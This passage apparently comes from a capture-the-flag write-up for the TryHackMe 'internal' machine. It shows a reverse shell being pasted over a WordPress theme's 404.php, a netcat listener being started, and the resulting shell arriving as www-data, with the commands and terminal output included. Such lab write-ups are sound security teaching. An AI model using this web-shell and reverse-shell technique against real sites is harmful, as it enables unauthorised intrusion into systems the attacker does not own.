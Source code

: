 Paste contents of the reverse shell file we edited over the top of the 404.php file:

![internal-edit404](/assets/images/2021-03-03-22-17-23.png)

Click the update button to save your changes:

![internal-update404](/assets/images/2021-03-03-22-19-09.png)

Start a netcat session waiting to catch the shell:

```text
root@kali:/home/kali/thm/internal# nc -nlvp 1337
listening on [any] 1337 ...
```

Back to the WordPress site and navigate to the 404.php page:

![internal-browse404](/assets/images/2021-03-03-22-21-18.png)

## Initial Shell

Now switch back to netcat to see we are connected:

```text
root@kali:/home/kali/thm/internal# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.8.165.116] from (UNKNOWN) [10.10.249.199] 47286
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 22:23:19 up 55 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

